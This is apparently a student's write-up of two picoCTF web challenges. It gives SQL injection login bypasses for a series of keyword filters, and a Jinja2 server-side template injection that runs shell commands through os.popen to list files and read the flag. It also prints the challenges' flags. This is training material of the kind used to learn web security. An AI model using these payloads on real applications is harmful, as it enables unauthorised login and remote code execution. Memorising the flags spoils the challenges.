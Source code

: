 # 1. Web Gauntlet

> Can you beat the filters?
Log in as admin http://shape-facility.picoctf.net:61726/ http://shape-facility.picoctf.net:61726/filter.php

## Solution:
In this challenge we have 2 sites, the first one a login screen which we need to log into and the other one gives some info about each round's filters'  
We need to login as `admin`  
The website uses filters which we need to bypass.  
- filter for round 1, `or`  
We write `admin' --`, this puts the username as admin and bypasses the password by making it a comment.  
```sql
WHERE username = 'admin' -- ' AND password = 'whatever';
```  
- filter for round 2, `or and like = --`  
For this we type the username as `admin` and the password as `1' is not '2'`, in the query the password becomes `'1' is not '2'` which return true.  
- filter for round 3 `or and = like > < --`  
The trick `a' is not 'b` doesn't work in this challenge, there might be a filter blocking it.
So we use `admin';` , the `;` here end the statement, so it never checks the password.
- filter for round 4 `or and = like > < -- admin`  
For this round we are not allowed `admin` string, so we concatenate it using `||`,  
`a'||'dmin';`
- filter for round 4 `or and = like > < -- admin`  
`a'||'dmin';` works as well for this round !

> we got the flag in filter.php as `picoCTF{y0u_m4d3_1t_79a0ddc6}`

## Flag:

```
picoCTF{y0u_m4d3_1t_79a0ddc6}
```

## Concepts learnt:

- Filter  
Code that blocks certain words
- Ijection  
When you put in a special text in username, password, etc which makes the server's SQL do something else than intended
- Payload
The speial text that you put in to exploit the weakness
- bit of SQL

## Notes:

- At first I didn't understand the use of the second site and was trying different ways to bypass the log in screen, but later on realised it tells us about the filters for that round.
- We can also use `/*` which is the multi line comment instead of `;` in some rounds.

## Resources:
[SQL ref](https://www.w3schools.com/sql/sql_injection.asp)  
[SQL injection](https://portswigger.net/support/sql-injection-bypassing-common-filters)

***
# 2. SSTI1

> I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!

## Solution:
In this challenge we have a website which announces whatever you type in the text box.  
For example if we type "hello" then the site will print that string.  
Now as the name suggests SSTV(Server Side Template Injection) we need to inject some code into this template to get the flag.  
We write-
```bash
lallu@VedantLohan:~$ curl -I http://rescued-float.picoctf.net:59262/
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.8.10
Date: Mon, 27 Oct 2025 17:01:39 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 567
Connection: close
```  
We see that it is a python server.
We try `{{7*8}}` on the site to check if it works in the template and it prints `56` This means it works on `jinja2`.  
Now we list all files in the server  
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```  
Which gives us
```
__pycache__ app.py flag requirements.txt
```  
Now we just cat the flag-  
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_f5438664}`


## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_f5438664}
```

## Concepts learnt:
- Template engine  
It lets you create a dynamic webpage, means you can fill in some data in the site which goes into the template and produces the final webpage.  
- Jinja2 syntax: `{{ expression }}` prints the evaluated expression.  



## Notes:
- Mistake I made was that at first I was trying to do stuff like `{{ls}}` which obviously didn't work beacuse `{{  }}` evaluates Python/Jinja expressions and not shell commands.

## Resources:

- [SSTI with Jinja2](https://onsecurity.io/article/server-side-template-injection-with-jinja2/)


***
